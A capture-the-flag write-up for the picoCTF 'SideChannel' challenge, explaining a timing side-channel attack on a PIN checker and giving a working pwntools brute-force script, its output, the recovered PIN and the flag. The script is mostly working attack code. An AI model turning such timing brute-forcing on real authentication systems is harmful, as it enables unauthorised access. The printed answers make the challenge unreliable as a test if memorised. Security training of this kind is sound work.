 # **SideChannel - 400 pts**

### Key points

- Timing-based side-channel attack

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)

---

## Overview

### Description

> There's something fishy about this PIN-code checker, can you figure out the PIN and get the flag?

Let's run the binary:

```sh
$ ./pin_checker
Please enter your 8-digit PIN code:
12345678
8
Checking PIN...
Access denied.
```

```sh
$ ./pin_checker
Please enter your 8-digit PIN code:
5
1
Incorrect length.
```

Okay, so we need to input an 8-digit pin. If the pin is correct, the program outputs our flag.

---

## Solution

Most people's first thought may be to decompile the binary in Ghidra, but one of the hints says reverse-engineering or trying to exploit the binary won't work. Sure enough, Ghidra has trouble decompiling it successfully.

### **Timing-based side-channel attack**

A [timing-attack](https://en.wikipedia.org/wiki/Timing_attack) is an attack where an attacker tryings to figure out a secret key by analyzing the time it takes for an cryptosystem to execute based on inputted keys. Let's think about a generic case for how the program might check our key:

Assume the secret key is `12345678`.

Say we input `00000000`. The program might loop through each digit and check if it is equal to the corresponding digit in the secret key. If not, it will break the loop and exit. In this case, it will exit after the 1st digit.

What if we input `12340000`? The program loops until the 5th digit, then exits. Theoretically, this should take longer than the previous case, as instead of checking 1 digit the program now checks 5.

In general, if a digit is correct, the runtime should be longer. Let's implement a timing-attack brute-force script.

---

### **The Script**

Our attack function starts a new process and sends our test key with the test digit, recording the time it takes for the program to return a result. We loop through 10 possible digits for each digits and compare the times. The digit with the longest running time should be the correct one. We repeat this for all 8 digits.

```py
from pwn import *
from time import time

@context.quietfunc
def timing_attack():
    print("[+] Beginning timing attack. To improve timing accuracy, close background processes and remain on this window.")
    key = ""
    for i in range(8):
        times = []
        for j in range(10):
            p = process("./pin_checker")
            p.sendline(pad(key + str(j)).encode())
            start_time = time()
            p.recvall()
            end_time = time()
            times.append(end_time - start_time)
            p.close()
        key += check_digit(times)
        print(f"[+] {i + 1} digits found: {key}")
    return key
```

`check_digit()` returns the digit with the longest running time:

```py
def check_digit(times):
    correct_digit = 0
    max = 0
    for digit, time in enumerate(times):
        if time > max:
            correct_digit = digit
            max = time
    return str(correct_digit)
```

`pad()` pads the right side of the key with 0s until the length is 8:

```py
def pad(key):
    return key + (8 - len(key)) * "0"
```

Sometimes, the timing may be inaccurate due to background processes, resulting in incorrect keys. It's best to remain on the window and avoid starting/stopping background processes while the script is running.

To verify that our key is correct, we can run the binary again with our key. If it is correct, we will send it to the remote server to get our flag.

```py
@context.quietfunc
def verify_key(key):
    p = process("./pin_checker")
    p.sendline(key.encode())
    result = p.recvall()
    if b"Access granted" in result:
        print("[+] Key verified! Sending to master server...")
        r = remote("saturn.picoctf.net", "50364")
        r.sendline(key.encode())
        result = str(r.recvall())
        r.close()
        FLAG = result[result.index("picoCTF"):result.index("}") + 1]
        print("[+] Flag:", FLAG)
        return True
    else:
        print("[!] Attack failed. Wrong key found.")
        print("[-] Trying again...")
        return False
```

If the key is incorrect, we will loop and try the attack again, until we find the correct key.

```py
if __name__ == "__main__":
    found = False
    while not found:
        key = timing_attack()
        print("[+] Key found:", key)
        found = verify_key(key)
```

Let's run it:

```sh
$ python3 solve.py
[+] Beginning timing attack. To improve timing accuracy, close background processes and do not change windows.
[+] 1 digits found: 4
[+] 2 digits found: 48
[+] 3 digits found: 483
[+] 4 digits found: 4839
[+] 5 digits found: 48390
[+] 6 digits found: 483905
[+] 7 digits found: 4839051
[+] 8 digits found: 48390513
[+] Key found: 48390513
[+] Key verified! Sending to master server...
[+] Flag: picoCTF{t1m1ng_4tt4ck_914c5ec3}

```

The key turns out to be `48390513`, and we got our flag.
The full script is in [solve.py](solve.py).

---

## Flag

> `picoCTF{t1m1ng_4tt4ck_914c5ec3}`
